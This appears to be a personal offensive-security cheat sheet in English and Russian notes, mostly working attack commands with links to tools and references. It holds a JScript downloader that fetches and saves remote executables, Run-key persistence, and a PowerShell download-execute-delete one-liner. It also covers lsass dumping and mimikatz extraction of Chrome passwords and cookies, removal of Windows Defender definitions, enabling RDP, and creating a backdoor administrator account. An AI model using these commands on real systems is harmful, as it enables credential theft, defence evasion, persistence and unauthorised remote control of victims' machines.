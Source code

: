 
<p align="center">
  <body>
    <img src="2zHQ.gif" width="500" height="300">
  </body>
</p>

https://github.com/jreegun/Researches/tree/master/Exe%20Sideloading

````
var  WinHttpReq  =  new  ActiveXObject ( "WinHttp.WinHttpRequest.5.1" ) ; 
WinHttpReq . Open ( "GET" ,  WScript . Arguments ( 0 ) ,  /*async=*/ false ) ; 
WinHttpReq . Send ( ) ; 
BinStream  =  new  ActiveXObject ( "ADODB.Stream" ) ; 
BinStream . Type  =  1 ;  BinStream . Open( ) ; 
BinStream . Write ( WinHttpReq . ResponseBody ) ; 
BinStream . SaveToFile ( "1.exe" ) ;

cscript /nologo 1.js http://192.168.1.192/Client.exe
````

````
WScript.Sleep(5000):Set objShell = WScript.CreateObject("WScript.Shell"):objShell.Run("start C:\Users\Public\putty.exe"), 0, True
````

````
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /f /v WinUpdater /t REG_SZ /d "%TEMP%\wncat.vbs"
````

````
aHR0cHM6Ly9zZWMubm1hc2suY24vYXJ0aWNsZV9jb250ZW50P2FfaWQ9YWQ1ZWI3NzQ1NDMxYzk4YzRiN2QxZWYyNzc0ZjI2NGI=

````
Анализируйте запросы ARP для определения взаимодействующих хостов и устаревших конфигураций сетевых адресов (SNAC)
https://github.com/arch4ngel/eavesarp


## make proxy in target PC

https://www.youtube.com/watch?v=ghZ8XK9zEfI<br>
proxy UP &
````
vim /etc/proxychains4.conf
proxychains4 nmap -A -F -sT -Pn 10.10.10.1/24 > nmap_res.txt
````


````
procdump.exe -accepteula -ma lsass.exe lsass.dmp
sekurlsa::minidump lsass.dmpsekurlsa::dpapi

````
## Mimikatz Chrome-dump

````
mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Login Data" /unprotectbeacon> mimikatz dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect
````
### Chrome cookies

````
 dpapi::chrome /in:"%localappdata%GoogleChromeUser DataDefaultCookies" /unprotect
````



## Download with Powershell

https://blog.jourdant.me/post/3-ways-to-download-files-with-powershell

https://adamtheautomator.com/powershell-download-file/


````
Invoke-WebRequest -Uri $url -OutFile $output
````

````
Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
````

bYpASS

https://github.com/tokyoneon/Chimera



````
powershell.exe iwr [URL] -o C:\Users\Public\[NAME].exe; forfiles.exe /p c:\windows\system32 /m svchost.exe /c C:\Users\Public\[NAME]; timeout 2; del C:\Users\Public\[NAME].exe
````
````
https://cloud.mail.ru/public/yp5y/tod8RWQqv
````
````
https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters

посмотреть процессы:

tasklist /V
tasklist /SVC

посомтреть АВ\

WMIC /Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get displayName /Format:List
sc query windefend

удалить правила для ДЕФ

"C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

посмотреть установленные программы

reg query HKEY_LOCAL_MACHINE\SOFTWARE

ПОРТЫ открытые:

netstat -ano

порты для программ:
netsh firewall show state
netsh firewall show config


включить РДП

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall add portopening TCP 3389 "Remote Desktop"
::netsh firewall set service remotedesktop enable #I found that this line is not needed
::sc config TermService start= auto #I found that this line is not needed
::net start Termservice #I found that this line is not needed


net user hacker PASS /add & net localgroup administrators hacker /add & net localgroup "Remote Desktop Users" hacker /add & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f & reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f & netsh firewall add portopening TCP 3389 "Remote Desktop" & netsh firewall set service remoteadmin enable

Авто загрузка управление

- https://www.thewindowsclub.com/manage-startup-items-windows-8

- https://www.techsupportall.com/how-to-disable-startup-programs-in-windows-10/#method4

-= https://community.spiceworks.com/topic/2140905-disabling-windows-startup-services-through-command-prompt

++ https://github.com/Faustvii/StartupManager
````
https://zer1t0.gitlab.io/posts/attacking_ad/
